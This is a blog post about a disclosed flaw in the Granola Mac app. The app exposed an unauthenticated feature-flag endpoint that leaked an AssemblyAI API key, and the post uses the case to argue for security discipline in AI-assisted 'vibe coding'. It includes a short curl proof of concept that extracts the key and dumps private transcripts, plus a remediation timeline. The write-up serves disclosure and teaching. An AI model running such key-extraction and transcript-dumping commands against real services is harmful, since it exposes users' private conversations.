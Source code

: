 ```yaml
---
author: Jonathan Haas
pubDate: 2025-05-12T00:00:00.000Z
title: 'When Vibe Coding Goes Wrong: Security Lessons from Granola'
description: >-
  Vibe coding shifts software creation from careful engineering to casual AI
  generation. When startups skip security fundamentals, the consequences aren't
  just bugs—they're breaches. Here's what the Granola incident teaches us.
featured: false
draft: false
tags:
  - cybersecurity
  - vibe-coding
  - AI-development
  - product-security
  - electron-apps
---
```


Vibe coding is having a moment.  
And honestly? It's kind of awesome.

Type a few sentences into an LLM.  
Get a working app back.  
Ship it. Repeat.

Except when you skip the "understand your code" part...  
You don’t just get quirky bugs.  
You get vulnerabilities.

Granola—a Mac app built with Electron—just gave us a painfully real example.

---

## What Went Wrong at Granola

Researchers found that you could:

1. **Unpack** the app easily (`asar extract` on the `.asar` archive).
1. **Read** through the JavaScript.
1. **Find** API endpoints embedded directly in the client.
1. **Hit** one of those endpoints (`get-feature-flags`) without authentication.
1. **Extract** an AssemblyAI API key from the feature flags.
1. **Use** that key to pull **private transcript data** from AssemblyAI.

### Proof of Concept Looked Like This:

````bash
# Step 1: Leak the API key
curl -X POST "https://api.granola.ai/v1/get-feature-flags" \
 -H "X-Client-Version: 5.226.0" \
 -H "Content-Type: application/json" | jq '.[] | select(.feature=="assembly*key")'

# Step 2: Use the key to dump transcripts
curl https://api.assemblyai.com/v2/transcript \
    -H "Authorization: $apiKey" | jq '.transcripts.[].id' > transcript*ids
cat transcript*ids | head -n 1 | tr -d '"' | while read id; do curl https://api.assemblyai.com/v2/transcript/$id -H "Authorization: $apiKey"; done
```text

### What the Transcripts Had

- Text transcripts of audio recordings.
- Some metadata.
- (Fortunately) **no direct access to raw audio files**.

Still, leaking user conversations—even just as text—is a security incident.
Full stop.

---

## How This Smells Like Vibe Coding

Nobody's saying definitively that Granola was "vibecoded."
But the red flags are textbook:

- Sensitive keys bundled into the client.
- No authentication checks on critical endpoints.
- Client/server boundary confusion.
- Basic security 101 mistakes.

It has the hallmark of someone saying to the AI:

> "Write a cool feature flag system"

...and never stepping back to ask:

> "Wait, should this even be exposed to the client?"

That’s **classic vibe coding**:
Prompt, ship, *hope it works*.

---

## Why Vibe Coding Without Guardrails Is Dangerous

Vibe coding feels magical.
But magic tricks don’t build safe systems.

Without critical layers like:

- **Threat modeling** ("What happens if someone inspects the app?")
- **Secure design** ("Who should be allowed to call this endpoint?")
- **API key management** ("Should keys live in the client?")
- **Principle of least privilege** ("Does this key even need full access?")

You’re not just moving fast.
You're skating blind across a minefield.

### The Hidden Costs of Vibe-Coded Apps

- **Trust Erosion**: Users delete your app—and your brand reputation goes with it.
- **Incident Response**: You scramble to patch, disclose, and recover.
- **Regulatory Exposure**: Privacy laws don’t care if your app was "vibey."
- **Compounding Debt**: Quick fixes become brittle patches on a broken foundation.

---

## The Solution Isn't "No Vibe Coding"

Let’s be clear:
**Vibe coding isn’t the enemy.**

It’s an incredible productivity unlock.
It democratizes building.

But if you’re building with AI-generated code, **you have new responsibilities**:

### 1. Audit Everything

Treat your AI like an enthusiastic intern.
Helpful? Sometimes.
Trustworthy without review? Never.

### 2. Train for Threat Modeling

You don’t have to be a full-time security engineer.
But you do need basic instincts:

- Who gets to call this API?
- What’s the worst thing that could happen here?
- Could this app be unpacked, inspected, reversed?

If you can't answer those questions, you need a security review before launch.

### 3. Lock Down Secrets

Never, ever, ever ship API keys, secrets, or privileged tokens in your client apps.
Use proper backend proxying.
Scope keys narrowly.
Rotate them regularly.

No exceptions.

### 4. Build In Authentication and Authorization Early

Even "just a little" security scaffolding saves you from giant messes later.
Set the bar early:

- Every sensitive API must require auth.
- Every key must be scoped and auditable.
- Every endpoint must assume bad actors are trying to hit it.

---

## Final Thought: It's Only "Vibes" Until It's Real Users

Weekend projects?
Fine. Vibe away. No judgment.

Production apps that handle user data?

**Vibe coding stops. Engineering begins.**

Ship fast.
But ship safe.

Granola’s mistake is a flashing neon sign:
🚨 *The vibes are not enough._ 🚨

---

## Disclosure Timeline (Granola)

- **Feb 18, 2025**: Disclosure contact requested.
- **Feb 26, 2025**: Second request.
- **Mar 10, 2025**: Contact established.
- **Mar 11, 2025**: Issue disclosed to Granola; response received confirming remediation.

✅ API key removed.
✅ Endpoint patched.

But the scar tissue remains—for the users, and for the team.

Let's learn the lesson the easy way.
````
